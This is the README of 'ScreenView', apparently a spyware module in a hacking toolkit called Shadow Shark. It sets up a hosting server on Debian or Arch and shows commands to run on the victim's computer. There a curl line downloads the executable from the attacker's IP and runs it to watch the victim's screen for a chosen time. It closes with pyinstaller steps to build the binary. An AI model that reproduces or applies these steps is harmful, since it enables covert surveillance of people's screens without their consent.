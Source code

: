 # ScreenView
The Shadow Shark ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (time in minutes to view the victim's screen)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py

